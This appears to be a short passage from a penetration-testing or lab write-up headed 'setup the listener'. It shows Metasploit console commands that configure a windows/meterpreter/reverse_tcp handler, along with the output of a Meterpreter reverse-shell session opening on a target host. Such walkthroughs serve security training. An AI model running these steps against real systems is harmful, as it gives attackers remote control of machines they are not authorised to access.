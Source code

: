 <br />

**setup the listener**

```bash
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.80.2       yes       The listen address (an interface may be s
                                     pecified)
   LPORT  1234             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.80.2
LHOST => 10.10.80.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.80.2:1234 
[*] Sending stage (175174 bytes) to 10.4.23.46
[*] Meterpreter session 63 opened (10.10.80.2:1234 -> 10.4.23.46:49921) at 2024-01-13 21:07:19 +0530
meterpreter > 

```
